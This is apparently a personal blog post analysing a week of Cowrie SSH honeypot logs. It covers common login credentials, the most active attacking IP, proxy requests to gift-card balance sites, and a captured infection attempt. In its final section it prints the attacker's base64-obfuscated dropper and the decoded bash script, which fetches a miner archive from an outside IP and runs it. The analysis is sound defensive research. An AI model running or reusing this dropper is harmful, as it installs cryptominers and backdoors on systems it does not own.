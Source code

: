 ```yaml
---
layout: post
title:  "Analyzing Honey Pot data"
---
```

We are going to look through the honey pot data from ```6-4-2019 - 6-13-2019```. I set up a simple honeypot using [Cowrie](https://github.com/cowrie/cowrie). Setting up the honey pot was pretty easy.  I choose this honey pot becuase it had a large following and a bunch of features. Instead of using the suggested output organizer, I have been exporting the logs to my pc every morning and then using ruby scripts I wrote to parse the data.

## Attempted Logins Stats

In Figure 1 we can see that there was a staggering 44k logins with the username ```ruby root```. Which makes sense because a attacker would want root access to the machine so they could bascily do anything they want with the machine. 
![Top to usernames](https://i.imgur.com/hFOtHSN.png=100x20)<br>
Figure 1, Top 10 Username logins

In Figure 1, there was 44,014 logins for root but in Figure 2, there was 44,030 password logins using ```admin```. All the passwords used are common passwords that would be found in a password list. With the expection of password ``` usuario```. After some Googling I found out that it is spanish for ```user```. 
![Top 10 Passwords](https://i.imgur.com/M6kF6cG.png=100x20)<br>
Figure 2. Top 10 Password logins


## Most active IP

In Figure 3, I calculated the most active Ip. This was the Ip that was found the most. We can see that the most active IP is ```58.59.2.26```. That IP was found 199 times. 

![Mot-Active-Ip](https://i.imgur.com/M6kF6cG.png=100x20)<br>
Figure 3, Most Active IP

In Figure 4, I did some research about the IP. The IP is from a Chinese ISP named ```China Telecom Shandong```

![IP-Lookup-58.59.2.26](https://i.imgur.com/AOIiK0Q.png=100x20)<br>
 Ip information for 58.59.2.26<br>
 
 In Figure, 5 is a picture of all the commands that the attacker used on the honeypot.
 
 ![commands-used-by-58.59.2.26](https://i.imgur.com/XOaWK3l.png=100x20)<br>
 Figure 5, List of commands used by 58.59.2.26<br>
 
 It looks like the attacker where just getting information about the box. They did not download or execute anything that would infect or own the system. 

## Other activities 
What I found intresting is that a couple of attackers tired to use it as a proxy. They would request a bunch of sites, mostly cryptocurrency, popular sites such as netflix. But they also where targeting Gift Cards balance checking sites. Some of the sites they tired to use are listed bellow.

```ruby
amidacarecard.com
ya.ru
www.onevanilla.com
www.myvanillabalance.com
chekfast.zennolab.com
www.palotterygiftcard.com
www.mybalancenow.com
www.alabamagiftcard.com
www.wellnesshealthvisacard.com
www.essilorrebatecard.com
www.cfnarewardcard.com
services.incommgateway.com
heck2.zennolab.com
www.pizzahut.com
order.dominos.com
chaturbate.com
www.nrpcard.com
api.bjs.com
www.essilorrebatecard.com
gc.mallofamerica.com
www.mybalancenow.com
google.com
www.google.ca
www.facebook.com
www.pof.com
paxful.com
www.dell.com
www.netflix.com
www.instagram.com
www.pof.de
www.ourtime.com
www.match.com
www.kraken.com
www.footlocker.com
kith.com
```



# Malware infection attempt

I wrote a different  post that goes into more details. But when I was viewing the logs I noticed a long string that looks like a base64 string. The base64 encoded string looked like this:
```ruby 

cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
When ran it will download and execute a miner. But it will also add their ssh key to the ```.ssh``` directory. The malware also sets up a hidden SSH sever that allows the attckers to login. Below is the decoded base64 string.
```ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
